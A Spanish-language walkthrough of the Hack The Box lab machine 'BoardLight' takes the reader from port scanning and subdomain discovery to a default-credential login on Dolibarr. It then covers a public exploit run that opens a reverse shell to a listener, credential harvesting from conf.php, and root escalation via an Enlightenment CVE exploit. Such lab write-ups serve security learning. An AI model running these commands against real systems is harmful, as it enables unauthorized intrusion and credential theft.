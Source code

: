 # BoardLight

✍️ Autor: Hack The Box 🔍 Dificultad: Fácil 📅 Fecha de creación: 25/05/2024

### 🔍 RECONOCIMIENTO

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 10.10.11.11
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2024-09-12 a las 9.46.25 (1).png" alt=""><figcaption></figcaption></figure>

A continuación, realizamos el comando:

```bash
nmap -sC -sV 10.10.11.11
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2024-09-12 a las 9.48.14.png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo que el **puerto 22** perteneciente al **servicio SSH** y el **puerto 80** perteneciente al **servicio HTTP** están abiertos por lo que a continuación se indagará más.

### 🔎 EXPLORACIÓN

Se utiliza el comando:

```bash
sudo nmap -sCV -p22,80 -v 10.10.11.11
```

para que nos proporcione más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2024-09-12 a las 9.49.33.png" alt=""><figcaption></figcaption></figure>

Seguimos indagando más sobre los puertos y ahora indagamos sobre el **servicio HTTP**. Se ingresó la **dirección IP** en el navegador lo que llevó a que la página web nos salga una página de una consultoría de ciberseguridad.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2024-09-12 a las 9.51.10.png" alt=""><figcaption></figcaption></figure>

Inspeccionamos el código fuente y no vemos nada relevante.&#x20;

Ahora buscaremos directorios con la herramienta **Gobuster** a través de:

```bash
gobuster vhost --domain board.htb -u http://10.10.11.11 \
    -w /usr/local/share/SecLists/Discovery/DNS/subdomains-top1million-5000.txt \ 
    --append-domain
```

<figure><img src="../../.gitbook/assets/Captura de pantalla 2024-09-12 a las 10.41.24.png" alt=""><figcaption></figcaption></figure>

Hemos descubierto un subdominio por lo que editamos el fichero `/etc/hosts` con el subdominio y la IP.

Con la herramienta Wfuzz vemos los directorios y archivos que contiene la página.&#x20;

<figure><img src="../../.gitbook/assets/Captura de pantalla 2024-09-12 a las 10.27.01.png" alt=""><figcaption></figcaption></figure>

Nos llama la atención el archivo index.php por lo que realizamos la búsqueda.

```bash
http://crm.board.htb/index.php
```

<figure><img src="../../.gitbook/assets/Captura de pantalla 2024-09-12 a las 10.47.17.png" alt=""><figcaption></figcaption></figure>

Es un panel de login por lo que probamos las credenciales más comunes. Probamos admin tanto para contraseña y usuario y nos deja iniciar sesión correctamente.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2024-09-12 a las 10.48.51.png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Revisamos la versión por Internet si tiene alguna vulnerabilidad. Efectivamente tiene una vulnerabilidad que intentaremos explotar haciendo una Reverse Shell.

{% embed url="https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-3025" %}

Ejecutamos el script mientras nos ponemos en escucha para conectarnos.

```
python3 exploit.py http://crm.board.htb admin admin 10.10.16.13 9001
```

```bash
ncat -l -p 9001
```

<figure><img src="../../.gitbook/assets/Captura de pantalla 2024-09-12 a las 11.04.46.png" alt=""><figcaption></figcaption></figure>

En esta etapa, tras obtener la shell en la máquina objetivo, descubrimos que el flag no se encuentra en esta máquina en particular. En cambio, el objetivo ahora es buscar las credenciales del otro usuario en esta misma máquina que indagando por documentaciones de Dolibarr se llama **Larissa**.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2024-09-12 a las 11.10.33.png" alt=""><figcaption></figcaption></figure>

Mostramos el contenido del archivo `conf.php`

<figure><img src="../../.gitbook/assets/Captura de pantalla 2024-09-12 a las 11.16.11 (1).png" alt=""><figcaption></figcaption></figure>

Hemos descubierto las credenciales por lo que nos conectamos a través del serivicio **SSH**.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2024-09-12 a las 11.18.27.png" alt=""><figcaption></figcaption></figure>

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar pero nos pide contraseña.

Listamos el contenido que tiene el usuario y descubrimos la flag del usuario.&#x20;

<figure><img src="../../.gitbook/assets/Captura de pantalla 2024-09-12 a las 11.20.17.png" alt=""><figcaption></figcaption></figure>

Utilicé **LinPEAS**, un script diseñado para identificar posibles rutas de escalamiento de privilegios en sistemas operativos Linux, Unix y macOS. Para obtener más información sobre este script, pueden consultar el siguiente enlace: [LinPEAS en GitHub](https://github.com/Cerbersec/scripts/blob/master/linux/linpeas.sh).

Primero, busqué el código del script en GitHub, lo copié y lo guardé en un archivo llamado l**inpeas.sh** en el directorio del usuario **Larissa**. Para hacer esto, utilicé el editor nano con el siguiente comando:

```bash
nano linpeas.sh
```

Dentro de este archivo, pegué todo el código obtenido de GitHub y lo guardé. Sin embargo, para ejecutar el script, necesitamos otorgarle permisos de ejecución, lo cual se hace con el siguiente comando:

```bash
chmod +x linpeas.sh
```

Luego de esto ejecutamos el script de la siguiente manera:

```
bash linpeas.sh
```

Esperamos a que el script termine su ejecución. Una vez completado, revisamos los archivos de interés. **LinPEAS** realiza un escaneo exhaustivo del sistema para identificar archivos y configuraciones que podrían presentar vulnerabilidades para la escalada de privilegios.

Entre los archivos más relevantes o recurrentes se encuentran los relacionados con Enlightenment. Tras investigar, descubrimos que la **versión 0.23** de **Enlightenment** tiene una vulnerabilidad identificada con el código \[**CVE-2022–37706**]. Además, encontramos que existe un exploit disponible para explotar esta vulnerabilidad que coincide con el exploit que tiene Larissa.

```bash
./exploit.sh
```

<figure><img src="../../.gitbook/assets/Captura de pantalla 2024-09-12 a las 11.35.48.png" alt=""><figcaption></figcaption></figure>

Ya somos **root** por lo que tenemos el máximo de los privilegios y al entrar en el directorio del root y al listarlo nos sale la última bandera.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2024-09-12 a las 11.44.51.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/Captura de pantalla 2024-09-12 a las 11.45.32.png" alt=""><figcaption></figcaption></figure>

